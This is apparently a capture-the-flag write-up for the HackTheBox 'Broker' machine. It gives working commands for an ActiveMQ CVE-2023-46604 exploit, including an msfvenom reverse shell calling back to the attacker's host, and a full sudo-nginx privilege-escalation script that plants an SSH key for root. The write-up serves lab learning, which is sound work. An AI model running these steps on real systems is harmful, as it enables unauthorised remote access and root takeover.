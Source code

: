 ```yaml
---
title: Broker
tags:
  - HackTheBox
  - Easy
  - Linux
  - ActiveMQ
  - Sudo-Vulnerability
  - Nginx
---
```

![](Pasted%20image%2020241106230259.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.243 broker.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- broker.htb > sC.txt

[redacted]
PORT      STATE SERVICE
22/tcp    open  ssh
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
1883/tcp  open  mqtt
5672/tcp  open  amqp
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
8161/tcp  open  patrol-snmp
36379/tcp open  unknown
61613/tcp open  unknown
61614/tcp open  unknown
61616/tcp open  unknown
```

So I checked the website and got asked for some credentials:

![](Pasted%20image%2020241106230556.png)

I always try some basic combinations and in this case `admin:admin` worked!:

![](Pasted%20image%2020241106230631.png)

After inspecting the source code, I found the version in use of ActiveMQ (5.15.15) inside `/admin`:

![](Pasted%20image%2020241106230829.png)

## Weaponization

I searched in Google for "*activemq 5.15.15 exploit*" and found [CVE-2023-46604](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ)

## Exploitation

I followed the instructions of the exploit:

```shell
git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git

cd CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.24 LPORT=666 -f elf -o test.elf

# Now edit the poc-linux.xml and change the ip to you machine (in my case 10.10.14.24)

python3 -m http.server 8090

go run main.go -i {Target_IP} -u http://{IP_Of_Hosted_XML_File}:8001/poc-linux.xml
```

> I got a reverse shell :D

![](Pasted%20image%2020241106231752.png)

![](Pasted%20image%2020241106231819.png)

> After stabilizing, we can now read the user flag 

![](Pasted%20image%2020241106231938.png)

## Privilege escalation

If we run `sudo -l`:

```shell
sudo -l

[redacted]
User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

So I found a way to escalate privileges by using this [script](https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406):

- First go to the home directory of an interactive session (`cd ~`)

```shell
echo "[+] Creating configuration..."
cat << EOF > /tmp/nginx_pwn.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
	server {
	        listen 1339;
	        root /;
	        autoindex on;
	        dav_methods PUT;
	}
}
EOF
echo "[+] Loading configuration..."
sudo nginx -c /tmp/nginx_pwn.conf
echo "[+] Generating SSH Key..."
ssh-keygen
echo "[+] Display SSH Private Key for copy..."
cat .ssh/id_rsa
echo "[+] Add key to root user..."
curl -X PUT localhost:1339/root/.ssh/authorized_keys -d "$(cat .ssh/id_rsa.pub)"
echo "[+] Use the SSH key to get access"
```

Then run the exploit:

```shell
chmod +x exploit.sh
./exploit.sh
```

Store the SSH Private Key then use it to connect to the host:

```shell
chmod 600 root_key
ssh -i root_key root@host
```

> Now we are root and can read root flag

![](Pasted%20image%2020241106232845.png)

==Machine pwned!==
